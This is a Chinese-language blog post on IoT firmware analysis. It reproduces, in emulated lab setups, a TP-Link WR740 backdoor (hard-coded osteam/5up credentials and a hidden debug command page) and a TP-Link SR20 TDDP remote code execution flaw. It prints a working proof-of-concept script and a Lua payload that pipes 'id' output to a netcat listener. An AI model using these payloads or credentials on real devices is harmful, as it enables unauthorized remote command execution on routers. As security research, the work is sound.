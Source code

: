 # IOT Security Research

A simple blog for IOT Security Research.
<!--more-->

## 前置知识
### 固件的获取
#### 直接从厂商官网或官方服务器下载
![](imgs/image-20241016135150887.png)

![](imgs/image-20241016135255333.png)


#### 使用BP或者UART串口进入设备的shell抓包获取下载地址
![](imgs/image-20241016135215581.png)

![](imgs/image-20241016135218312.png)


#### 使用固件烧写器或者编程器提取ROM中的固件

### 固件的处理
#### 解包
常用工具：binwalk、firmware-mod-kit、binaryanalysis-ng

#### 解密
1. 使用老版本未加密固件中的解密程序实现新版本加密固件的解密

2. 逆向分析低版本固件的解密逻辑实现对新版本固件的解密

## 漏洞复现
### TP-Link WR740 后门漏洞
首先获取固件，固件下载地址：https://github.com/dioos886/TP-LinkWR740

使用binwalk扫一下，可以直接看到Squashfs文件系统，使用-Me参数进行提取

![](imgs/image-20241016140120199.png)

> Tips：如果这里无法提取出文件系统，可能是没有正确安装sasquatch，直接根据Github中的步骤安装即可
> 
> sasquatch下载地址：https://github.com/devttys0/sasquatch.git

解包完成后，可以使用 firmwalker 进行敏感信息扫描

> firmwalker下载地址：https://github.com/craigz28/firmwalker.git
> 
> 使用方法：./firmwalker.sh squashfs-root的路径


![](imgs/image-20241016181231412.png)

多次出现httpd的字样，因此猜测是httpd起的服务

接下来逆向分析一下/usr/bin/httpd这个文件

通过搜索passwd跟踪到以下DebugResultRpmHtm这个函数，可以得到 用户名：osteam 密码：5up
![](imgs/image-20241016181821704.png)

再往上可以找到另外两个函数ArtRpmHtm和CmdRpmHtm
![](imgs/image-20241016182046585.png)

然后我们对固件进行模拟，我这里使用的是AttifyOS3.0中的 firmware-analysis-toolkit

![](imgs/image-20241017201034207.png)

模拟成功后我们直接访问 192.168.1.1 即可

![](imgs/image-20241017201209947.png)

使用默认密码 admin admin 登录

![](imgs/image-20241017201238654.png)

登录成功后直接访问 192.168.1.1/userRpmNatDebugRpm26525557/linux_cmdline.html

然后输入我们之前逆向得到的用户名密码：osteam 5up 即可实现 RCE

![](imgs/image-20241017201524213.png)

### TP-Link SR20 本地网络远程代码执行漏洞

固件下载链接：https://www.tp-link.com/us/support/download/sr20/#Firmware

选择 `SR20(US)_V1_180518` 下载，然后解压，直接使用 binwalk 提取固件即可

搭建 arm qemu 虚拟机环境

搭建环境前需要先获取以下三个文件，并置于统一目录中，下载链接：https://people.debian.org/~aurel32/qemu/armhf/

```bash
debian_wheezy_armhf_standard.qcow2 # qemu虚拟机的硬盘镜像文件，包含完整的 Debian Wheezy 操作系统（ARM 架构）
initrd.img-3.2.0-4-vexpress # 初始 RAM 文件系统镜像，用于在内核加载时提供临时文件系统和驱动
vmlinuz-3.2.0-4-vexpress # 压缩的 Linux 内核镜像文件，控制系统硬件和资源管理
```

```bash
sudo tunctl -t tap0 -u `whoami`  
# 为了与 QEMU 虚拟机通信，添加一个虚拟网卡，如果显示已经分配给一个用户，要先用以下命令启用
# sudo ip link set tap0 up

# 为添加的虚拟网卡配置 IP 地址
sudo ifconfig tap0 10.10.10.1/24 
# 根据配置启动虚拟机
qemu-system-arm \
    -M vexpress-a9 \                             # 使用 ARM 虚拟平台 vexpress-a9
    -kernel vmlinuz-3.2.0-4-vexpress \           # 指定内核镜像文件
    -initrd initrd.img-3.2.0-4-vexpress \        # 指定 initrd 初始 RAM 文件系统
    -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 \  # 将 debian 磁盘镜像作为 SD 卡
    -append "root=/dev/mmcblk0p2 console=ttyAMA0" \ # 内核启动参数：设置根分区及控制台
    -net nic \                                   # 启用虚拟网络接口
    -net tap,ifname=tap0,script=no,downscript=no \ # 使用 tap0 进行网络桥接
    -nographic                                    # 不启动图形界面，重定向到终端
```

虚拟机成功运行后，使用 root root 默认密码登录系统，然后使用以下命令配置网卡，建立与宿主机的通讯
```bash
ifconfig eth0 10.10.10.2/24
```

![](imgs/image-20241025160447046.png)

建立好通讯后，用以下命令把固件中的文件系统传入虚拟机中并解压
```
tar -cjpf squashfs-root.tar.bz2 squashfs-root/
python -m http.server
wget http://10.10.10.1:8000/squashfs-root.tar.bz2
tar -xjpf squashfs-root.tar.bz2
```

然后需要在宿主机中安装TFTP服务
```bash
sudo apt install atftpd
```

编辑 `/etc/default/atftpd` 文件，`USE_INETD=true` 改为 `USE_INETD=false`

修改 `/srv/tftp` 为 `/tftpboot`

修改完成后用以下命令启动并查看aftpd服务
```bash
sudo systemctl start atftp
sudo systemctl status atftp
# 如果出现 atftpd: can't bind port :69/udp 报错
# 需要先用以下命令停用 inetutils-inetd 服务，然后再restart
sudo systemctl stop inetutils-inetd.service
```

下图是启动成功的界面
![](imgs/image-20241025162544581.png)

之后是漏洞复现的步骤
现在宿主机的`/tftpboot` 目录下创建下面两个文件

文件一：payload
```bash
function config_test(config)
  os.execute("id | nc 10.10.10.1 1337")
end
```
文件二：poc.py
```python
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

# Create a file in your tftp directory with the following contents:
#
#function config_test(config)
#  os.execute("telnetd -l /bin/login.sh")
#end
#
# Execute script as poc.py remoteaddr filename

import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()

response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)
```

然后虚拟机运行tddp，宿主机开启监听并运行poc.py即可成功复现

![](imgs/image-20241025173411193.png)

![](imgs/image-20241025173312434.png)


但是我这里虚拟机中tddp的动态链接库有点问题，暂时卡在这里了

![](imgs/image-20241025172358445.png)

参考链接：https://paper.seebug.org/879/

---

> 作者: [Lunatic](https://goodlunatic.github.io)  
> URL: https://goodlunatic.github.io/posts/848cf69/  

